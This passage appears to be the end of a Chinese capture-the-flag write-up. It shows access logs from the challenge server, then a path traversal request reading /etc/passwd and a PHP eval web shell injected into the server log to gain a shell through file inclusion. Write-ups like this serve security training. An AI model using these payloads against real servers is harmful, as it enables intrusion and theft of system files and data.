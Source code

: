 ```
10.10.0.9 - - [01/May/2018:13:47:57 +0000] "GET / HTTP/1.0" 302 21 "-" "python-requests/2.6.0 CPython/2.7.5 Linux/3.10.0-327.36.3.el7.x86_64" 10.10.0.9 - - [01/May/2018:13:47:57 +0000] "GET /index.php?page=login.php HTTP/1.0" 200 778 "-" "python-requests/2.6.0 CPython/2.7.5 Linux/3.10.0-327.36.3.el7.x86_64" 10.10.0.9 - - [01/May/2018:13:57:13 +0000] "GET / HTTP/1.0" 302 21 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36" 10.10.0.9 - - [01/May/2018:13:57:13 +0000] "GET /index.php?page=login.php HTTP/1.0" 200 778 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36" 10.10.0.9 - - [01/May/2018:13:57:13 +0000] "GET /css/style.css HTTP/1.0" 200 2503 "http://ecbedb39ad3a4d4c9fc437bc175e8f6d55ecf72506af43a0.game.ichunqiu.com/index.php?page=login.php" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36" 10.10.0.9 - - [01/May/2018:13:57:13 +0000] "GET /favicon.ico HTTP/1.0" 404 571 "http://ecbedb39ad3a4d4c9fc437bc175e8f6d55ecf72506af43a0.game.ichunqiu.com/index.php?page=login.php" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36" 10.10.0.9 - - [01/May/2018:13:57:57 +0000] "POST /index.php?page=login.php HTTP/1.0" 302 373 "http://ecbedb39ad3a4d4c9fc437bc175e8f6d55ecf72506af43a0.game.ichunqiu.com/index.php?page=login.php" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36" 10.10.0.9 - - [01/May/2018:13:57:57 +0000] "GET /index.php?page=send.php HTTP/1.0" 200 1126 "http://ecbedb39ad3a4d4c9fc437bc175e8f6d55ecf72506af43a0.game.ichunqiu.com/index.php?page=login.php" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36" 10.10.0.9 - - [01/May/2018:13:57:57 +0000] "GET /css/styles.css HTTP/1.0" 200 5319 "http://ecbedb39ad3a4d4c9fc437bc175e8f6d55ecf72506af43a0.game.ichunqiu.com/index.php?page=send.php" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36" 10.10.0.9 - - [01/May/2018:13:57:58 +0000] "GET /1.jpg HTTP/1.0" 200 13581 "http://ecbedb39ad3a4d4c9fc437bc175e8f6d55ecf72506af43a0.game.ichunqiu.com/css/styles.css" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36" 10.10.0.9 - - [01/May/2018:13:58:40 +0000] "GET /index.php?page=../../../../etc/passwd HTTP/1.0" 200 970 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36" 10.10.0.9 - - [01/May/2018:14:02:36 +0000] "GET /index. HTTP/1.0" 404 571 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36"
```

发现真的可以读取日志文件<br>
我尝试污染日志文件

```
http://ecbedb39ad3a4d4c9fc437bc175e8f6d55ecf72506af43a0.game.ichunqiu.com/index.php?&lt;?php @eval($_POST[sky]);?&gt;
```

但是发现日志中的代码以及被url编码了

```
%3C?php%20@eval(x5C$_POSTx5C[skyx5C]);?%3E
```

这样显然包含不成功，这时候curl的功能就能体现了<br>
找到一篇参考文章

```
https://www.cnblogs.com/my1e3/p/5854897.html
```

于是我们构造

```
http://127.0.0.1/index.php?&lt;?php @eval($_POST[sky]);?&gt;
```

即可包含getshell<br>
后再数据库中发现了flag<br>[![](https://p2.ssl.qhimg.com/t01b06bfbf75dc98ae3.jpg)](https://p2.ssl.qhimg.com/t01b06bfbf75dc98ae3.jpg)



## 后记

能力有限，若有错误，请更正指出，谢谢！
